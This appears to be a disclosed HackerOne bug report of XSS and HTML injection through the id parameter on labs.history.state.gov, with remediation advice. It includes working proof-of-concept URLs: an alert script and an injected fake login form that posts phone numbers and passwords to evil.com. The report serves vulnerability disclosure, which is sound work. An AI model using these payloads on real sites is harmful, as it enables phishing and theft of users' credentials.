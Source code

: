 # xss and html injection on ( https://labs.history.state.gov)

## Report Details
- **Report ID**: 1810656
- **URL**: https://hackerone.com/reports/1810656
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-20T00:03:03.745Z
- **Disclosed**: 2023-02-20T02:00:01.044Z

## Reporter
- **Username**: iismailu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: us-department-of-state

## Vulnerability Information
## Summary:
there's possible xss and html injection on your  website https://labs.history.state.gov    through /card.xq?id= parameter
because your web did not sanatize user input  and you have vulnerable  JavaScript libraries jQuery 1.11.3
 
## Steps To Reproduce:


  ## html injection P O C code
https://labs.history.state.gov/card.xq?id=%3C/title%3E%3Cbody%20style=%22background:%20green;%22%3E%3Cdiv%20class=%22container%22%3E%3Cform%20action=%22https://www.evil.com%22%20method=%22post%22%20class=%22form%22%20style=%22display:%20block;%22%3E%3Clabel%20for=%22pnumber%22%3Ephone%20number%20%3C/label%3E%3Cbr%3E%3Cinput%20type=%22tel%22%20name=%22pnumber%22%20id=%22pnumber%22%20value=%22%22%20placeholder=%22phone%20number%22%20maxlength=%2211%22inputmode=%22tel%22%20size=%2240px%22%3E%3Cbr%3E%3Clabel%20for=%22pword%22%3Epassword%3C/label%3E%3Cbr%3E%3Cinput%20type=%22password%22%20name=%22pword%22%20id=%22pword%22%20value=%22%22%20placeholder=%22password%22%20maxlength=%22200%22%20size=%2240px%22height=%22100px%22%3E%3Cbr%3E%3Cinput%20type=%22submit%22%20value=%22login%22%3E%3C/form%3E%3C/div%3E%3Cfont%20style=%22font-size:%20100px;color:%20red;%22%20class=%22welcome%22%3EWE%20ARE%20HACKERONE%3C/font%3E
  
  ## xss P O C code
https://labs.history.state.gov/card.xq?id=%3C/title%3E%3Cscript%3Ealert(document.domain)%3C/script%3E

##Remediation Guidance
1.   you have to sanitize user input before using it 
2.   update your  JavaScript libraries jQuery 1.11.3 
## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

## Impact

1.. since html is a web language attacker can use this to change complete page look to do phishing attacks to compromise users
2.. attacker can use this to execute malicious javascript in user browser

## Attachments
- vokoscreenNG-2022-12-20_00-46-45.mkv
